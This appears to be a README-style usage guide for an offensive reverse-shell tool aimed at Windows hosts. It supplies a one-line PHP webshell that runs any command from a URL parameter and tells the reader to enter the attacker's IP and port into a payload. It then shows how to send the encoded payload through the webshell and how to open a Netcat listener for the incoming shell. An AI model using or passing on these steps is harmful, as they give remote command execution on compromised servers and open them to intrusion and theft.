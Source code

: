 
### 1. **Set Up a Webshell on the Target**

Ensure the target has a vulnerable PHP webshell that can execute commands through a URL parameter. Example:

```php
<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>
```

This PHP script will execute commands passed in the `cmd` URL parameter.

### 2. **Adjust IP and Port in the Payload**

Modify the reverse shell payload to use your **attacker's IP** (`LHOST`) and **chosen port** (`LPORT`).


After running the script, you'll get the **URL-encoded** payload.

### 3. **Execute the Payload via Webshell**

Once the payload is URL-encoded, execute it via the vulnerable webshell:

```bash
http://target.com/uploads/example.php?cmd=ENCODED_PAYLOAD
```

### 4. **Start Netcat Listener**

Before triggering the reverse shell, set up a listener on your attacking machine using Netcat:

```bash
nc -lvnp 4444
```
## TARGET:
- **Windows Hosts**
